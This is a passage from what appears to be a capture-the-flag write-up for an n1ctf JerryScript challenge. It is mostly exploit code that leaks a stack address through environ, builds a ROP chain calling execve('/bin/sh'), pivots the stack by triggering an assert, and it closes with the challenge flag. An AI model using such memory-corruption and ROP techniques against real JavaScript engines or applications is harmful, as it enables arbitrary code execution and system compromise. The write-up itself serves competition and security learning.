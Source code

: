 ```javascript
haystack[idx++] = shift(environ_ptr, 24) & 0xFF;
haystack[idx++] = shift(environ_ptr, 32) & 0xFF;
haystack[idx++] = shift(environ_ptr, 40) & 0xFF;
haystack[idx++] = 0x00;
haystack[idx++] = 0x00;
let environ = parseInt(f64_to_hex(arw[0]), 16);
let stack_addr = environ - 0x100;
print("[*] stack_addr: " + stack_addr.toString(16));

// place a rop chain on stack_addr
idx = old_idx;
haystack[idx++] = shift(stack_addr, 0) & 0xFF;
haystack[idx++] = shift(stack_addr, 8) & 0xFF;
haystack[idx++] = shift(stack_addr, 16) & 0xFF;
haystack[idx++] = shift(stack_addr, 24) & 0xFF;
haystack[idx++] = shift(stack_addr, 32) & 0xFF;
haystack[idx++] = shift(stack_addr, 40) & 0xFF;
haystack[idx++] = 0x00;
haystack[idx++] = 0x00;

let stack_pivot_code = pie_base + 0x701a;
for (var i = 0; i < 0x100; i++) {
    arw[i] = num_to_f64(stack_pivot_code)
}
var idx = 0x100;
let pop_rdi_ret = pie_base + 0x9447;
let pop_rsi_ret = pie_base + 0xbd46;
let pop_rdx_ret = pie_base + 0x9974;
let cmd_offset = 0x120*8;
let cmd_addr = stack_addr +cmd_offset; 
arw[idx++] = num_to_f64(pop_rdi_ret);
arw[idx++] = num_to_f64(cmd_addr);
arw[idx++] = num_to_f64(pop_rsi_ret);
arw[idx++] = num_to_f64(0);
arw[idx++] = num_to_f64(pop_rdx_ret);
arw[idx++] = num_to_f64(0);
arw[idx++] = num_to_f64(libc_execve);

// place /bin/sh
arw_u8 = new Uint8Array(arw.buffer);
let ascii_array = string_to_ascii_array("/bin/sh\x00");
arw_u8.set(ascii_array, cmd_offset);

// trigger assert to pivot stack into rop chain
assert("Hello world");
```

The flag is `n1ctf{Y0u_Kn0w_J3rry_1s_cle8er_th4n_T0m_b5t_y0u_d0nt_kn0w_jerry_scri9t_148257}`. Again, thanks to my wonderful teammates for solving this.